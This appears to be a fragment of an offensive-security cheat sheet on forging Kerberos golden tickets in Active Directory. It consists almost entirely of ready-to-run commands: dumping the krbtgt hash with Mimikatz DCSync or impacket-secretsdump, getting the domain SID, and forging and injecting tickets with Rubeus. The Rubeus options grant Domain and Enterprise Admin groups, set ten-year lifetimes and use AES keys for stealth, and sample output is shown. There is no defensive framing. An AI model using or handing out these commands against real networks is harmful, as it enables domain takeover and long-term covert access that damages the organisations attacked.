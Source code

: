 **Get krbtgt hash:**
```powershell
# From compromised DC or with DCSync rights
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'
# Or from Kali:
impacket-secretsdump 'CORP/admin@DC01' -just-dc-user krbtgt
```

**Get domain SID:**
```powershell
whoami /user
# Output: S-1-5-21-123456789-123456789-123456789-1108
# Domain SID is everything except last part (RID):
# S-1-5-21-123456789-123456789-123456789
```

---

### Create Golden Ticket

```powershell
# Create and inject golden ticket for Administrator
Rubeus.exe golden /rc4:KRBTGT_NTLM_HASH /domain:corp.local /sid:S-1-5-21-XXX-XXX-XXX /user:Administrator /ptt

# With AES256 key (more stealthy)
Rubeus.exe golden /aes256:KRBTGT_AES256_KEY /domain:corp.local /sid:S-1-5-21-XXX-XXX-XXX /user:Administrator /ptt

# Output:
# [*] Action: Build TGT
# [*] Building PAC
# [*] Domain         : CORP.LOCAL
# [*] SID            : S-1-5-21-XXX-XXX-XXX
# [*] UserId         : 500 (Administrator)
# [*] Groups         : 520,512,513,519,518
# [*] ServiceKey     : HASH
# [*] Ticket         : doIFuj...
# [+] Ticket successfully imported!
```

---

### Golden Ticket Options

```powershell
# Specify RID (user ID)
Rubeus.exe golden /rc4:HASH /domain:corp.local /sid:S-1-5-21-XXX /user:FakeAdmin /id:500 /ptt

# Specify groups (privilege assignment)
Rubeus.exe golden /rc4:HASH /domain:corp.local /sid:S-1-5-21-XXX /user:Admin /groups:512,520,519 /ptt
# 512 = Domain Admins
# 520 = Group Policy Creator Owners
# 519 = Enterprise Admins

# Set custom lifetime (default 10 years!)
Rubeus.exe golden /rc4:HASH /domain:corp.local /sid:S-1-5-21-XXX /user:Admin /starttime:"10/24/2025 00:00:00" /endtime:"10/24/2035 00:00:00" /ptt

# Save to file instead of injecting
Rubeus.exe golden /rc4:HASH /domain:corp.local /sid:S-1-5-21-XXX /user:Admin /outfile:golden.kirbi
```

---